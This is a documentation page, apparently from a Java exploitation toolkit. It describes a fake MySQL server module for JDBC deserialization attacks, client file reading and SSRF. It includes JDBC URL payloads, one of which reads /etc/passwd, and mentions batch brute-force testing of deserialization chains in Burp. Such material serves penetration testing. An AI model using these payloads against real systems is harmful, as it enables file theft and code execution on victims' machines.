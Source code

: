 ```yaml
---
title: MySQL JDBC Attack
sidebar_position: 4
---
```


# MySQL JDBC Attack

## FakeMySQLPayload

MySQL JDBC deserialization exploitation techniques

The FakeMySQL module is similar to the [JNDI module](jndi.md)

JNDI passes tokens through LDAP/RMI parameters to match the backend and return the corresponding Payload.

FakeMySQL passes parameters through the MySQL username.

It also has the same fault tolerance mechanism as the JNDI module, i.e., if the token is not matched, the latest generated Payload is returned by default.

## FakeMySQLReadPayload

MySQL JDBC client file reading and SSRF techniques

This supports two parameter passing methods. The first is to input parameters in java chains, then return a token, and put it into the jdbc payload.

![](@site/static/doc/mysql-read.png)

```jdbc:mysql://127.0.0.1:3308/test?user=[TOKEN]
```

The second method is to set parameters in the username, with the format: `fileread_[file name]`

Here, fileread_ is a fixed prefix, followed by the file name to be read, for example, the following JDBC file reading Payload

```
jdbc:mysql://127.0.0.1:3308/test?user=fileread_/etc/passwd
```

## FakeMySQLSHPayload

FakeMySQL deserialization all-in-one chain, one-click testing of common deserialization chains to improve testing efficiency

![](@site/static/doc/mysql-showhand.png)

It can be placed in Burp for batch brute force testing.
![](@site/static/doc/fake-mysql.png)

The overall usage process is the same as the JNDI's ShowHand chain, which can be referenced: [JNDIShowHandPayload](./jndi.md#jndishowhandpayload)

## References

- https://github.com/4ra1n/mysql-fake-server
